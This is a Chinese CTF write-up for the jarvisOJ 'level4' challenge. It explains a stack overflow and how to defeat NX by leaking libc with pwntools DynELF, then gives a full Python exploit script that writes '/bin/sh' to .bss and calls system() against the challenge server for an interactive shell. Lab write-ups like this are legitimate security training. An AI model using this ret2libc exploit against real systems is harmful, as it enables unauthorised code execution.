 ```yaml
---
title: jarvisOj-level4
categories: 
- jarvisOj
---
```

# jarvis->level4

## 代码逻辑

程序本身很简单，使用F5转换成C代码，有一个vlunerable_function(),里面是很明显的栈溢出

![code](./1.jpg)
![code2](./2.jpg)

查看程序的保护措施，发现只有栈不可执行保护，这意味着不能在栈上执行代码。

![protection](./3.jpg)

## 调试

整体的思路比较简单，溢出之后在return addr填上system函数地址，之后跟fake ebp和'/bin/sh'的地址即可，但是在调试过程中发现程序中并没有现成的地址，因此要想办法自己获取Libc中的地址

![info](./4.jpg)

由于题目中没有给libc，我开始使用的是一个库Libcsearcher，基于libcdatabase，但是事实证明不太好使，找不到对应的libc，也可能是我使用姿势不对，之后想到用pwntools自带的DynELF配合leak得到system函数的地址，之后使用read将'/bin/sh'写入.bss段中，调用system('.bss_addr')即可拿到shell

代码里的leak函数是使用一种持续化泄露函数地址的方式讲指定的address输出出来，借此找到libc,后面的payload是使用read从用户输入中获取'/bin/sh'，之后三个pop将栈里的read三个参数都弹出栈，到ret的时候esp就是system_addr，它的参数是bss段的地址(可以用IDA查看)

## exp.py
```python
#coding=utf-8
from pwn import *
context.update(arch='i386',os='linux',log_level="info")
debug = 0
elf = ELF('./level4')
#libc = ELF('/lib/i386-linux-gnu/libc.so.6')
if debug:
    sh = process('./level4')
else:
    sh = remote('pwn2.jarvisoj.com',9880)
#gdb.attach(sh)
def leak(address):
    padding = 'A' * 0x8c
    write_plt = elf.plt['write']
    vulnearbale_addr = elf.symbols['vulnerable_function']
    payload = padding + p32(write_plt) + p32(vulnearbale_addr) + p32(1) + p32(address) + p32(4)
    sh.send(payload)
    data = sh.recv(4)
    print "%x => %s" % (address, (data or '').encode('hex'))
    return data
d = DynELF(leak,elf=ELF('./level4'))
system_addr = d.lookup("system","libc")
bss_addr = 0x0804A024
read_plt = elf.plt['read']
pop_ret = 0x08048509
padding = 'A'*0x8C
vulnearbale_addr = elf.symbols['vulnerable_function']
payload = padding + p32(read_plt) + p32(pop_ret) +p32(0) + p32(bss_addr)\
        + p32(8) + p32(system_addr) + p32(vulnearbale_addr) +p32(bss_addr)
sh.sendline(payload)
sh.sendline('/bin/sh\x00')
sh.interactive()
sh.send(payload)
sh.interactive()
```
